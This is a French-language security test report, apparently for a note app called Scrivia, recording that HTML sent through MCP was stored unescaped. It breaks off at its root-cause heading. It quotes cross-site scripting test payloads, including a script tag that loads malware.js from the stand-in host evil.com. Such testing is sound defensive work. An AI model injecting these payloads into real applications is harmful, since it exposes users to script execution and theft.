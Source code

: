 # 🧪 STRESS TEST: Injection HTML - Rapport

**Date:** 12 octobre 2025  
**Status:** 🚨 **VULNÉRABILITÉ CRITIQUE CONFIRMÉE**

---

## 🎯 OBJECTIF DU TEST

Stress test de la sécurité HTML en créant une note avec du contenu malveillant pour valider le système de sanitization.

---

## 🧪 MÉTHODOLOGIE

### Test réalisé

1. Création d'une note via MCP Scrivia avec du HTML dangereux:
   - `<script>` malveillants
   - `<iframe>` embarqués
   - Event handlers (`onerror`, `onclick`, etc.)
   - Balises dangereuses (`<embed>`, `<object>`, `<style>`)
   - Code TypeScript avec generics (`Array<T>`)
   - Tableaux markdown avec symboles (`<`, `>`, `&`, `"`)

2. Récupération de la note pour vérifier l'échappement

### Résultats du test

**Note créée:** `9dba81cc-f40e-47ed-9241-e76d118bd59c`  
**Classeur:** Test (`classeur-test-1758543811222`)

---

## 🚨 VULNÉRABILITÉ DÉTECTÉE

### Problème critique

Le HTML n'a **PAS été échappé** lors de la création ! Exemple de contenu stocké:

```markdown
## Test 1: Scripts malveillants

<script>alert('XSS Attack!');</script>
<script src="https://evil.com/malware.js"></script>
```

**Résultat:** Les balises `<script>`, `<iframe>`, etc. sont stockées **EN BRUT** dans la base de données ! 🚨

### Cause racine
